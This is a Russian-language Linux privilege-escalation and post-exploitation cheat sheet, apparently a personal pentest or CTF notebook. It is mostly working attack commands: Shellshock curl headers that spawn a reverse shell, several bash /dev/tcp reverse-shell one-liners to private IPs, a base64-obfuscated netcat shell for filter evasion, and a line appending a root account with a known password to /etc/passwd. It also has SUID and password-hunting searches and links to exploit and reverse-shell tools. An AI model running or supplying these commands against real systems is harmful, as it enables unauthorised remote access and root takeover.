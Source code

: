 # pkexec
Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

https://putty.org.ru/articles/unix-linux-ref


# открыть gui 
open .

# Добавление пользователя с правами root в /etc/passwd

echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd


# Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum

https://github.com/rebootuser/LinEnum.git

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-

       сетевые интерфейсы, порты, службы;
       netstat
            
       ss -tulpn

        процессы
        ps aux
        
        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null



https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения

реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080


Запустить интерактивную оболочку

script /dev/null -c bash

повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm


/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# ПОИСК ПАРОЛЕЙ

cat * | grep -i passw*

grep -r "passw".

grep -rni 'enter_network' (поиск везде от текущей)

for i in $(grep -oP "('.*?')" -R . --no-filename);do x=$(echo -n $i | ent| grep Entropy| awk '{print $3}' ); echo "$x $i"; done | sort -n
(поиск всего, заключенного в  '   ' особенно для паролей с применением ентропии)

# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

https://github.com/DominicBreuker/pspy

wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;

find / -user root -perm -u=s -type f 2>/dev/null

find / -perm -u=s 2>/dev/null

# Найти все сетевые соежинения 

 ss -tulpn

# Разрешенные пермишены

Sudo -l

getcap -r / 2>/dev/null
